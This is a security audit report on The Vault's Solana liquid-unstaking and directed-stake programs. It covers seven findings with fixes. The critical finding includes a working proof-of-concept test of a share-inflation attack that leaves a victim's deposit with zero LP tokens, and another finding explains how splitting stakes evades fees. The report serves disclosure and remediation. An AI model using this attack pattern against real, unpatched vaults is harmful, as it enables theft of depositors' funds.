




# The Vault Program Audit Report


**Mad Shield**
Date: November 19, 2024</br>
__David P__ - david@madshield.xyz</br>
__BlueWolf__ - wolf@madshield.xyz</br>
__JecikPo__ - je@madshield.xyz</br>

## Table of Contents

[Introduction](#introduction)</br>
[Findings and Recommendations](#findings-and-recommendations)</br>
&emsp;[Critical Severity](#critical-severity)</br>
&emsp;&emsp;[[VAULT-01] Vault Vulnerable to Inflation Attack](#vault-01-vault-vulnerable-to-inflation-attack)</br>
&emsp;[High Severity](#high-severity)</br>
&emsp;&emsp;[[VAULT-02] The Linear Fee Can Be Bypassed by Splitting Stakes](#vault-02-the-linear-fee-can-be-bypassed-by-splitting-stakes)</br>
&emsp;[Medium Severity](#medium-severity)</br>
&emsp;&emsp;[[VAULT-03] Shifting Deactivating Stakes Between Pools Blocks Funds Temporarily](#vault-03-shifting-deactivating-stakes-between-pools-blocks-funds-temporarily)</br>
&emsp;[Low Severity](#low-severity)</br>
&emsp;&emsp;[[VAULT-04] Inconsistency Between Unstaking Stake Account and LST Amounts](#vault-04-inconsistency-between-unstaking-stake-account-and-lst-amounts)</br>
&emsp;[Informational](#informational)</br>
&emsp;&emsp;[[VAULT-05] Unnecessary Check on the liquid_unstake_stake_account Instruction](#vault-05-unnecessary-check-on-the-liquid_unstake_stake_account-instruction)</br>
&emsp;&emsp;[[VAULT-06] Lack of Fee Input Controls](#vault-06-lack-of-fee-input-controls)</br>
&emsp;&emsp;[[VAULT-07] Unnecessary Bump Assignment](#vault-07-unnecessary-bump-assignment)</br>
[Protocol Overview](#protocol-overview)</br>
&emsp;[Accounts and Flows](#accounts-and-flows)</br>
&emsp;[Instructions](#instructions)</br>
&emsp;&emsp;[Liquid Unstaker](#liquid-unstaker)</br>
&emsp;&emsp;[Directed Stake Token](#directed-stake-token)</br>
&emsp;&emsp;[Directed Stake](#directed-stake)</br>
[Methodology](#methodology)</br>
[Scope and Objectives](#scope-and-objectives)</br>
[References](#references)</br>


<a name="introduction"></a>

## Introduction

The audit focuses on The Vault protocol new programs:

- **liquid-unstaker** The Solana Unstaker program allows users to instantly unstake Liquid Staking Tokens (LSTs) or native SOL stake accounts. Liquidity providers deposit SOL into a pool and earn fees based on how much liquidity is available—lower fees when the pool is full and higher fees when liquidity is low. Users pay a fee to unstake instantly, and the program manages deactivating stake accounts and returning SOL to the pool as it becomes available. Administrators can set flexible fees and manage pools, a permissionless instruction is devoted to ensure pending stake accounts are returned to the vault.
- **directed-stake** Two programs that allow depositing of vSOL to a particular validator. Users get in exchange a DST
(Directed Stake Token) which is a wrapped vSOL. DST represents vSOL that is directed to a specific validator. This 
allows validators to establish their own directed LSTs (Liquid Staked Tokens).

The audit was conducted between October 31st, 2024 and November 19th, 2024. During this period, The Vault programs were thoroughly analyzed with particular attention paid to the vault structure and fee mechanisms, the deposit and withdrawal processes, and the interaction with Solana's Stake program. Several recommendations were made and communicated to the development team for future improvements.

This report outlines the audit process, describes the methodology used, and certifies the program as secure to the best of our knowledge while also highlighting areas for potential optimization and enhancement. 

<a name="findings-and-recommendations"></a>

## Findings and Recommendations

Our severity classification system adheres to the criteria outlined here.

Severity Level | Exploitability | Potential Impact | Examples
---|---|---|---
<span style="color:red">Critical</span> | Low to moderate difficulty, 3rd-party attacker | Irreparable financial harm | Direct theft of funds, permanent freezing of tokens/NFTs
<span style="color:orange">High</span> | High difficulty, external attacker or specific user interactions | Recoverable financial harm | Temporary freezing of assets
<span style="color:yellow">Medium</span> | Unexpected behavior potential for misuse | Limited to no financial harm, non-critical disruption | Escalation of non-sensitive privilege, program malfunctions, inefficient execution
<span style="color:blue">Low</span> | Implementation variance, uncommon scenarios | Zero financial implications, minor inconvenience | Program crashes in rare situations, parameter adjustments by authorized entities
<span style="color:green">Informational</span> | N/A | Recommendations for improvement | Design enhancements, best practices usabilitiy suggestions

In the following table, we enumerate some of the findings and issues we discovered and explain their implications and corresponding resolutions. 

Finding | Description | Severity Level
---|---|---
VAULT-01</br><span style="color:green">Resolved</span>  | Vault Vulnerable to Inflation Attack | <span style="color:red">Critical</span>
VAULT-02</br><span style="color:green">Resolved</span> | The Linear Fee Can Be Bypassed by Splitting Stakes | <span style="color:orange">High</span>
VAULT-03</br><span style="color:green">Resolved</span> | Shifting Deactivating Stakes Between Pools Blocks Funds Temporarily | <span style="color:yellow">Medium</span> 
VAULT-04</br><span style="color:green">Resolved</span> | Inconsistency Between Unstaking Stake Account and LST Amounts | <span style="color:blue">Low</span>
VAULT-05</br><span style="color:green">Acknowledged</span> | Unnecessary Check on the liquid_unstake_stake_account Instruction | <span style="color:green">Informational</span>
VAULT-06</br><span style="color:green">Resolved</span> | Lack of Fee Input Controls | <span style="color:green">Informational</span>
VAULT-07</br><span style="color:green">Resolved</span> | Unnecessary Bump Assignment | <span style="color:green">Informational</span>

<a name="critical-severity"></a>

### Critical Severity

List of Critical severity findings.

<a name="c-01"></a>

#### \[VAULT-01\] Vault Vulnerable to Inflation Attack

The Unstaker program contains a vault implementation where users can deposit and withdraw SOL. When a user 
deposits SOL into it the program mints LP tokens in proportional amount. The following equation describes
how the LP token amount to be minted is calculated:

Inputs:
- `LPt` - Total Supply of LP tokens.
- `Ld` - amount of Lamports user wishes to deposit.
- `L` - Total amount of lampots deposited at the pool.

Outputs:
- `LPm` - amount of LP tokens to mint.

if either `L` or `LPt` is zero.

`LPm = Ld + L - LPt`

if not:

`LPm = LPt * Ld / L`

The attacker by leveraging the fact that lamports can be sent to the `sol_vault` account directory can inflate 
the price of a single LP token. If the price is high enough the subsequent depositors will have their LP tokens
minted amount equal to zero because of rounding down of the value in the above equation.

Example Attack Scenario:
1. The Vault is deployed and initial balance of the `sol_vault` is `890880` (rent-exempt amaount).
2. The Attacker deposits `1` lamport and gets back `890881` LP tokens. The `sol_vault` balance is also `890881`.
3. The Attacker takes a flash loan of `793666283520` amaount (which is equal to `890880 * 890880 - 890880`). The purpose
of this loan is to inflate price of LP token to the point that all except one can be burned, but the amaount left in the 
`sol_vault` will guarantee rent-exempt. The amaount is transferred directly to the `sol_vault` and the Attacker burns `890880`
LP tokens. The balance of the `sol_vault` is now `890880` and the LP total supply is `1`.
4. Now The Attecker transfer `1` SOL to `sol_vault`. 
5. The Victim wants to deposit `1` SOL. The program calculates the amaount of LP tokens in the following way: `1 * 1000000000 / 1000890880`
which is equal to zero. The Victim deposited `1` SOL, but didn't get any LP. The Attacker with 1 LP token can withdraw entire `sol_vault` balance.

Proposed solutons:
- Introduce check that minting 0 LP tokens is not allowed.
- UniswapV2 style - locking fixed portion of LP tokens on first mint.
- OpenZeppelin style - decimal offset. [1]


The following PoC presents the issue:

```ts
describe.only("liquid-unstaker-PoC-1", () => {

  // Configure the client to use the local cluster.
  anchor.setProvider(anchor.AnchorProvider.env());
  const provider = anchor.getProvider();

  const program = anchor.workspace.LiquidUnstaker as Program<LiquidUnstaker>;

  // Keypairs
  const userKeypair = Keypair.generate();
  const userSolKeypair = Keypair.generate();
  const managerFeeAccount = Keypair.generate();
  const adminKeypair = Keypair.generate();

  // Accounts that are reused through the tests
  let poolAccount: PublicKey;
  let poolBump: number;
  let solVault: PublicKey;
  let lpMintPubkey: PublicKey;
  let userLpAccount: PublicKey;
  let victimLpAccount: PublicKey;

  // Constants
  const feeMax = Math.floor(0.08 * FEE_PCT_BPS);    // 8%
  const feeMin = Math.floor(0.001 * FEE_PCT_BPS);   // 0.1%
  const minSolForMinFee = new anchor.BN(100 * LAMPORTS_PER_SOL);
  const managerFeePct = 10 // 10%
  const depositAmount = minSolForMinFee.add(new anchor.BN(100 * LAMPORTS_PER_SOL));
  const secondDepositAmount = depositAmount.div(new anchor.BN(2));
  let lpAmountFirstDeposit = 0;
  let lpAmountSecondDeposit = 0;

  const stakePoolAddress = new PublicKey("Fu9BYC6tWBo1KMKaP3CFoKfRhqv9akmy3DuYwnCyWiyC");

  before(async () => {
    // Airdrop SOL to user and admin
    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        userKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        adminKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        managerFeeAccount.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );    
    
    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        userSolKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );   
  });

  it("Initialize Pool PoC 1", async () => {

    console.log("--- Initialize Pool ---");

    [poolAccount, poolBump] = PublicKey.findProgramAddressSync(
      [Buffer.from("pool"), adminKeypair.publicKey.toBuffer()],
      program.programId
    );

    let solVaultBump;
    [solVault, solVaultBump] = PublicKey.findProgramAddressSync(
      [Buffer.from("sol_vault"), poolAccount.toBuffer()],
      program.programId
    );

    let lpMintBump;
    [lpMintPubkey, lpMintBump] = PublicKey.findProgramAddressSync(
      [Buffer.from("lp_mint"), poolAccount.toBuffer()],
      program.programId
    );

    console.log("Pool pubkey: ", poolAccount.toBase58());
    console.log("solVault pubkey: ", solVault.toBase58());
    console.log("LpMint pubkey: ", lpMintPubkey.toBase58());

    // Initialize the pool
    await program.methods
      .initializePool(feeMax, feeMin, minSolForMinFee, managerFeePct)
      .accounts({
        pool: poolAccount,
        authority: adminKeypair.publicKey,
        solVault: solVault,
        systemProgram: SystemProgram.programId,
        lpMint: lpMintPubkey,
        tokenProgram: TOKEN_PROGRAM_ID,
        rent: anchor.web3.SYSVAR_RENT_PUBKEY,
        managerFeeAccount: managerFeeAccount.publicKey,
      })
      .signers([adminKeypair])
      .rpc()

    // Fetch the pool account
    const pool = await program.account.pool.fetch(poolAccount);


    expect(pool.authority).to.eql(adminKeypair.publicKey);
    expect(pool.managerFeeAccount).to.eql(managerFeeAccount.publicKey);
    expect(pool.solVault).to.eql(solVault);
    expect(pool.totalAccruedFees.toNumber()).to.equal(0);
    expect(pool.totalLpTokens.toNumber()).to.equal(0);
    expect(pool.lpMint).to.eql(lpMintPubkey);
    expect(pool.feeMax).to.equal(feeMax);
    expect(pool.feeMin).to.equal(feeMin);
    expect(pool.managerFeePct).to.equal(managerFeePct);
    expect(pool.feeMin).to.equal(feeMin);
    expect(pool.bump).to.equal(poolBump);
    expect(pool.solVaultBump).to.equal(solVaultBump);
  });

  it("Deposit and Withdraw SOL PoC 1", async () => {

    console.log("--- Deposit SOL ---");
    console.log("User pubkey: ", userKeypair.publicKey.toBase58());
 

    // ATA for the LP Mint
    userLpAccount = await getAssociatedTokenAddress(
      lpMintPubkey,
      userKeypair.publicKey,
      true,
      TOKEN_PROGRAM_ID,
      ASSOCIATED_TOKEN_PROGRAM_ID);

    console.log("userLpAccount pubkey: ", userLpAccount.toBase58());
    console.log("SOL Vault", solVault);

    // Get initial balances
    const beforeSolBalances = {
      user: await provider.connection.getBalance(userKeypair.publicKey),
      vault: await provider.connection.getBalance(solVault),
    }

    console.log("Vault amount before deposit: ", beforeSolBalances.vault);
    console.log(" User amount before deposit: ", beforeSolBalances.user);

    // Deposit SOL, enough so that unstakes will happen at the minimum fee

    const twoLamports = new anchor.BN(1);

    await program.methods
      .depositSol(twoLamports)
      .accounts({
        pool: poolAccount,
        user: userKeypair.publicKey,
        solVault: solVault,
        lpMint: lpMintPubkey,
        userLpAccount: userLpAccount,
        systemProgram: SystemProgram.programId,
        tokenProgram: TOKEN_PROGRAM_ID,
        associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
      })
      .preInstructions([
        createAssociatedTokenAccountInstruction(
          userKeypair.publicKey,
          userLpAccount,
          userKeypair.publicKey,
          lpMintPubkey
        )
      ])
      .signers([userKeypair])
      .rpc();
  
    const afterSolBalances = {
      user: await provider.connection.getBalance(userKeypair.publicKey),
      vault: await provider.connection.getBalance(solVault),
    }

    console.log("Vault amount after deposit: ", afterSolBalances.vault);
    console.log(" User amount after deposit: ", afterSolBalances.user);

    // Verify that the SOL was transferred to the pool's SOL vault
    const solVaultBalance = await provider.connection.getBalance(solVault);

    const lpMintBalance = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    lpAmountFirstDeposit = Number(lpMintBalance.toString());

    console.log("LP Mint balance: ", lpMintBalance);
  
    console.log("- Withdraw sufficient amaount of SOL, so that 1 LP token is left");

    // Sufficient amount: 793666283520 (890880 * 890880 - 890880)
    const transaction = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 793666283520,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction, [userKeypair]);

    // withdraw LPs so that 1 is left.
    const withdrawLpAmount = new anchor.BN(890880);
    await program.methods
    .withdrawSol(new anchor.BN(withdrawLpAmount))
    .accounts({
      pool: poolAccount,
      user: userKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: userLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
    })
    .signers([userKeypair])
    .rpc();

    const afterWithdrawSolBalances = {
      user: await provider.connection.getBalance(userKeypair.publicKey),
      vault: await provider.connection.getBalance(solVault),
    }

    console.log("Vault amount after withdrawal: ", afterWithdrawSolBalances.vault);
    console.log(" User amount after withdrawal: ", afterWithdrawSolBalances.user);

    const lpMintBalanceAfter = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    console.log(" Attacker LP amount after withdrawal: ", lpMintBalanceAfter);

    //console.log(" User gain: ", afterWithdrawSolBalances.user - );

    const transaction2 = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 1 * LAMPORTS_PER_SOL,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction2, [userKeypair]);

    const victimKeypair = Keypair.generate();

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        victimKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    // ATA for the LP Mint
    victimLpAccount = await getAssociatedTokenAddress(
      lpMintPubkey,
      victimKeypair.publicKey,
      true,
      TOKEN_PROGRAM_ID,
      ASSOCIATED_TOKEN_PROGRAM_ID
    );

    const victimDepositAmount = new anchor.BN(1 * LAMPORTS_PER_SOL);

    await program.methods
    .depositSol(victimDepositAmount)
    .accounts({
      pool: poolAccount,
      user: victimKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: victimLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
      associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
    })
    .preInstructions([
      createAssociatedTokenAccountInstruction(
        victimKeypair.publicKey,
        victimLpAccount,
        victimKeypair.publicKey,
        lpMintPubkey
      )
    ])
    .signers([victimKeypair])
    .rpc();

    const lpMintBalanceVictim = (await splTokenGetAccount(provider.connection, victimLpAccount)).amount;
    console.log(" Victim LP amount after deposit: ", lpMintBalanceVictim);
  });
});
```

After running we should see the following output:
```
Vault amount before deposit:  890880
 User amount before deposit:  1000000000000
Vault amount after deposit:  890881
 User amount after deposit:  999997960719
LP Mint balance:  890881n
- Withdraw sufficient amaount of SOL, so that 1 LP token is left
Vault amount after withdrawal:  890880
 User amount after withdrawal:  999997960720
 Attacker LP amount after withdrawal:  1n
 Victim LP amount after deposit:  0n
    ✔ Deposit and Withdraw SOL PoC 1 (2822ms)
```

The Victim deposited 1 SOL, but zero LP tokens were minted.

<a name="high-severity"></a>

### High Severity

List of High severity findings.

<a name="VAULT-02"></a>

#### [VAULT-02] The Linear Fee Can Be Bypassed by Splitting Stakes

The linear fee calculation inside the `calculate_base_fee` function is incorrect. The denominator in the following code snipped is `pool.min_sol_for_min_fee` which creates the relation of the fee percent based on the size of the unstaked amount:

```rust
            Ok(Fee::calculate_linear_base_fee(
                (pool.fee_max - pool.fee_min).into(),
                unstake_lamports, 
                pool.min_sol_for_min_fee)? + pool.fee_min as u64)
```

The fee percentage should however be a function of the balance left at the `sol_vault` account. The following example presents how the incorrect calculation can be abused to pay lower fees.

Inputs:
- `Fmin` - minimum fee
- `Fmax` - maximum fee
- `Smin` - minimum SOL value to initiate the linear fee calculation:
- `U`   - unstaked lamports

Outputs:
- `F` - linear fee percentage

`F = ((Fmax - Fmin) * U / Smin) + Fmin`

Now let's consider the following example, with values:
- `Fmin = 2%`
- `Fmax = 10%`
- `Smin = 2 SOL`
- `U = 1 SOL`

We are already below the `Smin`, but still enough to unstake `U`, our fee will look like this:

`F = ((10% - 2%) * 1 / 2) + 2% = 6%`

Now what happens if the user splits the stake in two, so the `U` will be `0.5 SOL`, but unstaked twice:

`F = ((10% - 2%) * 0.5 / 2) + 2% = 4%`

The impact of this issue is that the malicious user can split their larger stake account into two and unstake them one after the other (if the `Smin` threshold is crossed). This way such user would deprive the LP holders and the manager of the fees.

The calculation should be changed to:

`F = ((Fmax - Fmin) * U / Sb) + Fmin`

Where `Sb` is the `sol_vault` balance. Hence the correct code should look like this:

```rust
            Ok(Fee::calculate_linear_base_fee(
                (pool.fee_max - pool.fee_min).into(),
                unstake_lamports, 
                current_sol_vault_lamports)? + pool.fee_min as u64)
```

<a name="medium-severity"></a>

### Medium Severity

<a name="VAULT-03"></a>

#### [VAULT-03] Shifting Deactivating Stakes Between Pools Blocks Funds Temporarily
When a user unstakes a stake account using a pool the program will end up owning Stake account which
holds the deactivating funds and a `StakeAccountInfo` - a special account holding information on the 
amount of deactivating funds with associated Stake account. While those accounts are owned by the 
Unstaker program, they are not associated with a concrete pool (and hence `sol_vault` account) that they 
were unstaked against. By shifting the withdrawals between pools (through the permissionless `update`
instruction) a mismatch between the Stake accounts may happen.

```
1. Starting point:
 # Pool A                          # Pool B
 #  deactivating: 1 SOL            #  deactivating: 0.5 SOL
 #  1 deactivating stake           #  1 deactivating stake
 #     - 1 SOL Stake A             #     - 0.5 SOL Stake B 

2. Stake B withdrawal is initiated on Pool A and we have the following situation:
 # Pool A                          # Pool B
 #  deactivating: 0.5 SOL          #  deactivating: 0.5 SOL
 #  1 deactivating stake           #  0 deactivating stakes
 #     - 1 SOL Stake A             #  

3. Now the Stake A is impossible to be withdrawn in neither of the pools.
```

The above situation can be recovered from if more Stake accounts are unstaked.

The proposed solution would be to add the Pool account to the `StakeAccountInfo` so that withdrawals can happen only on the pools where the Stake account was deactivated.

<a name="low-severity"></a>

### Low Severity

<a name="VAULT-04"></a>

#### [VAULT-04] Inconsistency Between Unstaking Stake Account and LST Amounts

There is inconsistency between the following instruction when it comes to calculating the 
Fee and the unstaking payouts as per below code:

In `liquid_unstake_stake_account` instruction we have the following:
```rust
        Fee::calculate_and_transfer_fees(
            &mut ctx.accounts.pool, 
            &ctx.accounts.sol_vault, 
            &ctx.accounts.manager_fee_account,
            &ctx.accounts.user_sol_account,
            total_amount_to_unstake - stake_account_rent_exempt_amount)?;
```

while in `liquid_unstake_lst` we have:
```rust
        Fee::calculate_and_transfer_fees(
            &mut ctx.accounts.pool, 
            &ctx.accounts.sol_vault, 
            &ctx.accounts.manager_fee_account,
            &ctx.accounts.user_sol_account,
            total_amount_unstaked)?;
```

The `calculate_and_transfer_fees` should be passed with the `total_amount_to_unstake` value only ot `liquid_unstake_stake_account`, the rent-exempt amount shouldn't be deducted.

<a name="informational"></a>

### Informational

<a name="VAULT-05"></a>

#### [VAULT-05] Unnecessary Check on the liquid_unstake_stake_account Instruction

The `liquid_unstake_stake_account` instruction shall initialize the following account to hold the unstaked 
information:
```rust
    #[account(
        //init_if_needed,
        init,
        seeds = [b"stake_account_info", stake_account.key().as_ref()],
        bump,
        payer = user,
        space = 8 + StakeAccountInfo::LEN,
    )]
    pub stake_account_info: Account<'info, StakeAccountInfo>,
```

Later in the instruction the following check on that account is performed:

```rust
        if ctx.accounts.stake_account_info.is_active {
            return Err(error!(LiquidUnstakerErrorCode::StakeAccountAlreadyProcessed));
        }
```
It is not necessary as the `stake_account_info` is initialized hence the above erroneous condition will never happen.

<a name="VAULT-06"></a>

#### [VAULT-06] Lack of Fee Input Controls

The Liquid Unstaker program lacks control of the values of the following parameters:
- `fee_max`
- `fee_min`
- `manager_fee_pct`

Those values on Initialize Pool and Update Pool instructions should be verified against a certain range according to the protocols policy to avoid abuse and mistakes.

<a name="VAULT-07"></a>

#### [VAULT-07] Unnecessary Bump Assignment

The Update Pool instruction on the Liquid Unstaker program contains unnecessary pool account bump retrieval and assignment:

```rust
        let (_pool_pda, pool_bump) = Pubkey::find_program_address(&[b"pool", pool.authority.as_ref()], ctx.program_id);
        pool.bump = pool_bump;
```

The `pool.bump` is already assignent during the Pool Initialization instruction and the bump does not change, hence the above code will just assign the same value wasting compute units. It can be safely removed.

<a name="protocol-overview"></a>

## Protocol Overview

This section describes the functionality of The Vault protocol.

Solana Unstaker program facilitates instant unstaking for users holding Liquid Staking Tokens (LSTs) or native SOL stake accounts, while allowing liquidity providers to supply the necessary SOL and earn fees in return. Liquidity providers deposit SOL into a pool, receiving LP tokens representing their share, and earn variable fees based on the pool’s liquidity—lower fees when liquidity is sufficient and higher fees as liquidity decreases. Users can unstake LSTs or SOL stake accounts instantly, with fees deducted based on the pool’s liquidity. The program also manages the lifecycle of deactivating stake accounts, withdrawing SOL as it becomes available, and returning it to the pool. Administrators configure pools with flexible fee and liquidity parameters and maintain them through periodic updates. Permissionless update instruction allows to load the pending stake accounts back to the vault. 

The second program directed-stake (actually a collection of two programs: directed-stake and directed-stake-token) allow the vSOL holder to deposit their vSOL and direct their stake into the a specific validator.

<a name="accounts-and-flows"></a>

### Accounts and Flows

The following graph describes the account structure of the directed-stake and directed-stake-token programs:



The `DSTInfo` is the main account identifying the DST pool, it is tied to the following:
- `vsol_reserve` - account to hold deposited vSOL by stakers.
- `token_mint` - which is the mint account for the DST token.
- `director` - not directly tied but through the seed containing the `authority` of the `DSTInfo`.

The following graph describe the account structure of the liquid-unstaker program:



The `Pool` is the main account identifying the Unstaker pool, it is tied to the following:
- `sol_vault` - account holding deposited SOL by the LP providers
- `lp_mint` - the LP token mint account used to mint the LP tokens for SOL depositors.

<a name="instructions"></a>

### Instructions

This section contains brief instruction description of the audited programs.

<a name="liquid-unstaker"></a>

#### Liquid Unstaker

**initialize_pool** 
- The program lets you create and configure Liquid Unstaking Pools with customizable settings for managing liquidity and fees.
- Each pool works independently, allowing multiple pools within the program.
- Configurable parameters include:
    - `fee_max`: Maximum fee percentage.
    - `fee_min`: Minimum fee percentage.
    - `min_sol_for_min_fee`: Minimum SOL required to apply the minimum fee.
    - `manager_fee_pct`: Percentage of fees for the pool manager.
- This setup provides flexibility and precise fee adjustments based on liquidity levels.

**deposit_sol**
- Liquidity providers add SOL to the pool to increase liquidity for unstaking.
- In return, they receive LP tokens, representing their share of the pool.
- LP tokens track contributions and rewards, encouraging providers to keep the pool liquid.
- The program securely issues LP tokens to reflect accurate participation.
- Depositors specify the amount of SOL they want to contribute.

**withdraw_sol**
- Liquidity providers can withdraw SOL by redeeming their LP tokens anytime.
- The withdrawal amount is based on their share of the pool and any earned fees.
- SOL payouts are adjusted dynamically to reflect the pool’s state and rewards.
- This ensures fair compensation and transparency for providers.
- Depositors specify the amount of LP tokens they want to burn.

**liquid_unstake_lst**
- Users can instantly unstake their Liquid Staking Tokens (LSTs) and get SOL minus fees.
- The SPL Stake Pool program converts LSTs into an active stake account.
- The program deactivates the stake account and transfers the SOL to the user from the sol_vault.
- It keeps track of deactivated stake accounts using a `StakeAccountInfo` account tied to each stake and the pool, ensuring consistency and transparency.

The following picture presents the Flow of the Unstake LST instruction:


**liquid_unstake_stake_account**
- This instruction lets users instantly unstake SOL from an active, delegated stake account without lockup restrictions.
- Users receive the SOL from the stake account minus fees.
- The StakeAccountInfo account links the stake account to the pool.

The following picture presents the Flow of the Unstake Stake Account instruction:


**update**
- This permissionless instruction closes deactivated stake accounts and their linked StakeAccountInfo accounts.
- The released SOL is transferred to the sol_vault after the epoch ends.
- It should usually be run at the start of each epoch.

**update_pool**
- Only the pool authority can call the Update Pool instruction.
